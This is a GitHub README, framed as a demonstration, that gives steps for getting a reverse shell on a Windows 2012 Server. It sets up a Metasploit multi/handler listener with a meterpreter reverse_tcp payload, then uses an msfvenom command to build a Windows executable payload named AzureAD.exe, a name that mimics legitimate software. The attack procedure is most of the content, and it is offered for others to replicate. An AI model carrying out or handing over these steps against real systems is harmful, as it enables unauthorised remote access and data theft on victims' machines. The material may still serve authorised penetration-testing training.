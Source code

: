 # theperfectreverseshell
This is a demonstration of obtaining a reverse shell on a Windows 2012 Server. The aim of obtaining access to view and copy the output produced by downloading certain tools to the compromised host to the attacking machine and then run a script to compare the produced data against a pre-defined list of data

### The following steps are provided to obtain a reverse shell on a Windows 2012 Server. The steps performed, were carried out in a secure environment. Please ensure, if you do choose to replicate this activity that you either do so as qualified practitioner or that you have a qualified practitioner with you.

# Step 1 : Create a reverse handler using metasploit. To do so, you run the following commands -
  -1.1 - sudo msfconsole
  -1.2 - use multi/handler
  -1.3 - configure payload (preferable : windows/meterpreter/rerverse_tcp)
  -1.4 - ensure that the "LHOST" and "LPORT" settings are correctly configured. You may do so, by running : set LHOST <IP Address of Host> and the set LPORT <port you would like to listen on>
  -1.5 - once this has been completed, you may run : run -j or exploit -j at the msf prompt. This will create a persistent listener that will exit once you tell it to, it a disconnect from the client(victim). After doing so, you should see the following screen :
  
  ![image](https://user-images.githubusercontent.com/101802030/225633287-455e3c11-18a9-4bb8-b29f-a2d65dc23c86.png)

  
  
  -2.1 - (On a Kali Linux machine) sudo msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=<IP of Address of host> LPORT=<local port to listen on> -f <format> exe -o <output> ~/Downloads/AzureAD.exe
  



